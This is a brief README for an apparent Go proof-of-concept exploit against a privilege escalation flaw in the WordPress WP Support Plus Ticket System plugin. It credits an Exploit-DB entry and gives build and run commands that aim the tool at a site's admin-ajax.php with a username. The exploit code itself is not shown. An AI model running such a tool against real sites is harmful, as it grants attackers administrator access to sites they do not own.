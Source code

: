 # WP-SupportPlusTicketSystemPE

This is a PoC written in Go for Wordpress Privilege Escalation. It was based on exploit´s logic of https://www.exploit-db.com/exploits/41006

Build it:
go build PE-Wordpress.go

Execute it:
[Linux] 
PE-Wordpress https://URL/wp-admin/admin-ajax.php user

[Windows] 
PE-Wordpress.exe https://URL/wp-admin/admin-ajax.php user
